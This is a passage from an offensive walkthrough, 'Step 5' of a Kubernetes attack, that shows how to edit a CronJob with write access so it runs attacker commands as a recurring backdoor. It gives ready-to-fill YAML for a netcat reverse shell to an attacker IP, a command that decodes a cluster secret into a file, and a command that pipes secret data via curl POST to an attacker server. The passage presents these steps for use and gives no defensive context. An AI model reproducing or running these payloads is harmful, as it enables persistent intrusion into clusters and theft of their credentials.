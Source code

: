 **Step 5: Modify the CronJob to Execute a Malicious Command**

This step requires write access to the CronJob object.

```bash
kubectl edit cronjob <cronjob-name> -n <namespace>
```

*   **Explanation:** This command opens the CronJob's YAML definition in a text editor.
*   **Why:** This allows us to modify the CronJob's configuration and insert a malicious command.
*   **Expected Output:** The CronJob's YAML definition opens in a text editor.
*   **What to do:** Modify the `command` or `args` section of the container specification to execute a malicious command.  Examples:
    *   **Simple Example (reverse shell):**
        ```yaml
        spec:
          jobTemplate:
            spec:
              template:
                spec:
                  containers:
                  - name: my-container
                    image: busybox
                    command: ["/bin/sh", "-c", "nc -e /bin/sh <attacker-ip> <attacker-port>"]
                  restartPolicy: OnFailure
        ```
    *   **More sophisticated (write secret data to a file):**
        ```yaml
        spec:
          jobTemplate:
            spec:
              template:
                spec:
                  containers:
                  - name: my-container
                    image: busybox
                    command: ["/bin/sh", "-c"]
                    args: ["sleep 60; echo $(kubectl get secret my-secret -n default -o jsonpath='{.data.my-secret-key}' | base64 --decode) > /tmp/secret_data.txt"] # Replace with your secret, namespace, and key
                  volumeMounts:
                    - name: temp-volume
                      mountPath: /tmp
                  volumes:
                    - name: temp-volume
                      emptyDir: {}
                  restartPolicy: OnFailure
        ```
    *   **Exfiltrate data (requires network access):**

        ```yaml
        spec:
          jobTemplate:
            spec:
              template:
                spec:
                  containers:
                  - name: my-container
                    image: busybox
                    command: ["/bin/sh", "-c"]
                    args: ["sleep 60; kubectl get secret my-secret -n default -o json | curl -X POST -d @- <attacker-server>"]  # Replace attacker-server with your exfiltration endpoint
                  restartPolicy: OnFailure
        ```
*   **Contribution:** Modifies the CronJob to execute the attacker's desired command, creating a recurring backdoor.
